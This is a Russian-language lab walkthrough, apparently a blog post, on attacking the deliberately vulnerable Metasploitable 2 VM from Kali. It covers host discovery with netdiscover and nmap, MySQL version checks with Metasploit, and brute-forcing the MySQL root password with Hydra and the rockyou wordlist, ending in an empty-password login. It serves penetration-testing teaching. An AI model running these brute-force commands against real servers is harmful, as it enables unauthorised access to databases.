






Предполагается что все действия выполняются на виртуальных машинах VirtualBox.
Начинаем атаку на удаленную машину Metasploitable 2.
Необходимо определить IP с машиной Metasploitable 2. Для этого сначала определим наш IP и маску подсети, для этого дадим команду в терминале Kali:
ifconfig
В результатах вывода команды выше, можно увидеть такую строку:
inet 10.0.2.4 netmask 255.255.255.0
То есть наш IP 10.0.2.4 а диапазон IP адресов нашей сети 10.0.2.0/24 (это обяснялось ранее в предыдущих статьях).
Для обнаружения других компьютеров в сети и в том числе нашей удаленной машины Metasploitable 2, дадим команду в терминале Kali:
sudo netdiscover -r 10.0.2.0/24
В выводе команды:
10.0.2.2 08:00:27:3a:17:ed 1 60 PCS Systemtechnik GmbH 10.0.2.3 08:00:27:f1:18:5a 1 60 PCS Systemtechnik GmbH
10.0.2.2 - это виртуальный роутер, который управляет нашей сетью.
10.0.2.3 - это наша машина (по логике) с Metasploitable 2.
Проверим связь между нашей Kali и удаленной ВМ Metasploitable 2, дадим команду:
ping 10.0.2.3
Если сеть в VirtualBox настроена правильно, видим пинг идет, связь есть.
На Kali выполняем команду в терминале:
nmap -sC -sV 10.0.2.3
В выводе nmap находим такую строку (сриншот ниже):
3306/tcp open mysql MySQL 5.0.51a-3ubuntu5
Открыт 3306 порт и на нем служба MySQL.

Еще один способ определить версию MySQL.
Запускаем метсплоит:
msfconsole
msf > use auxiliary/scanner/mysql/mysql_version
msf auxiliary(scanner/mysql/mysql_version) > set RHOSTS 10.0.2.3
msf auxiliary(scanner/mysql/mysql_version) > run

Вывод на скриншоте выше так же определил версию MySQL:
10.0.2.3:3306 is running MySQL 5.0.51a-3ubuntu5
Далее будем подбирать пароль к MySQL для пользователя root.
Дадим команду в терминале Kali распаковать словарь их архива:
gunzip /usr/share/wordlists/rockyou.txt.gz
Если использовать брутфорс из метасплоит, то новая версия метасплоит плохо работает со старой версией MySQL на удаленной машине, но кто хочет может попробывать такие команды (можно так же установить старую версию Kali и метасплоит):
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > set RHOSTS 10.0.2.3
msf auxiliary(mysql_login) > set USER_FILE /usr/share/wordlists/rockyou.txt
msf auxiliary(mysql_login) > set PASS_FILE /usr/share/wordlists/rockyou.txt
msf auxiliary(mysql_login) > run
После запуска run у меня вылетает ошибка, как на скриншоте ниже:

Завершаем работу с метасплоит командой exit.
Поэтому для подбора пароля к MySQL используем программу Hydra.
Ниже две команды- эти команды аналогичны, разница в том что для подбора пароля используют разные словари.
hydra -l root -e n -P /usr/share/wordlists/rockyou.txt -t 32 mysql://10.0.2.3:3306 -V
hydra -l root -P /usr/share/wordlists/fasttrack.txt -t 32 mysql://10.0.2.3:3306 -V
Для примера возьмем первую команду и введем в терминал Kali (скриншот ниже):

Если пароль пустой (empty password), то Hydra часто выводит только найденный логин, без текста пароля, например:
[3306][mysql] host: 10.0.2.3 login: root
Это означает, что пароль — пустая строка ("").
Почему Hydra так делает
Hydra считает пустой пароль отдельным случаем и не печатает что-то вроде
password:
или
password: ""
потому что выводить нечего.
В нашем выводе видим- пароль пустая строка.
Мы узнали пароль, теперь заходим в MySQL.
Ниже две команды заходы в MySQL, можно взять любую:
mysql --skip-ssl -h 10.0.2.3 -u root
mysql --skip-ssl -h 10.0.2.3 -u root -p
В случае с ключем -p при запросе пароля нажать клавишу Enter и MySQL продолжит работу.


Hydra — это инструмент для подбора учетных данных (логина и пароля) к различным сетевым сервисам.
Она может работать двумя основными способами:
1)Перебор по словарю (dictionary attack) — берет пароли из файла и проверяет их один за другим.
Например:
hydra -l root -P /usr/share/wordlists/fasttrack.txt mysql://10.0.2.3
Здесь:
-l root — логин root;
-P fasttrack.txt — список возможных паролей;
mysql://10.0.2.3 — сервер MySQL.
2)Проверка специальных вариантов паролей с помощью -e:
n — пустой пароль;
s — пароль совпадает с логином;
r — пароль равен логину, записанному наоборот.
Например:
hydra -l root -e ns mysql://10.0.2.3
сначала попробует пустой пароль, затем пароль root.
Что происходит внутри
Hydra не "угадывает" пароль математически. Она:
подключается к серверу;
отправляет логин и очередной пароль;
если сервер отвечает «неверный пароль» — пробует следующий;
если сервер принимает пароль — сообщает об успехе и (по умолчанию) прекращает подбор для этого логина.
Такой метод называется брутфорс (brute force) или, если используется словарь, словарная атака (dictionary attack). Словарная атака обычно значительно быстрее полного перебора всех возможных комбинаций символов.